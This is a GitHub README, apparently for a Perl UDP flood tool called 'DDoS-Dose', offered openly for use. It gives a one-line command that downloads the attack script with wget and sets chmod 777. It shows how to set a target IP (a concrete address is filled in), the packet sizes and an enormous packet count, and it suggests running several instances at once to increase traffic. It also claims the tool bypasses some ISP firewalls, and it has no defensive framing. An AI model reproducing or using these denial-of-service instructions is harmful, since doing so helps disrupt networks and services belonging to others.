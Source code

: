 # UDP Script for DDoS-Dose !

## Features

- Generate Random UDP Traffic
- From Random Port
- To Random Port
- Require HPC (High Performance Computing) Server
- Can bypass some ISP Firewalls
- Language: Perl
- Spoofed: No (doesn't include IP header Modification)


## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  apt update -y && apt install perl -y && apt install wget -y && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer4/UDP/random-udp%20%7C%20ID%3AA1/random-udp.pl && chmod 777 *

```
    

## Usage

```
Enter Target ---> 
my $target_host = "117.203.8.210"; (Line6)
```
```
You can edit Packet Size on Script --->
my $max_size = 100; (Line 7) Define the max packet size
my $min_size = 50;  (Line 8) Define the min packet size
```
```
You can set how much packet sent to Host? --->
my $packet_count = 1000000000000000; (Line9)
```
```
perl random-udp.pl
```
```
YOU CAN RUN IT MULTIPLE TIME TO INCREASE TRAFFIC LIKE - Depends on CPU/RAM
perl random-udp.pl & perl random-udp.pl & perl random-udp.pl
---> Multithreading Causing Issue
```


## Related

want to pass the Target IP, Packet Size, Packet Count in Command Line

[Click Here for that Script](https://github.com/cyberceros/)


## Authors

- [@cyberceros](https://www.github.com/cyberceros)


## Feedback

If you have any feedback, please reach out to us at n@dultr.in

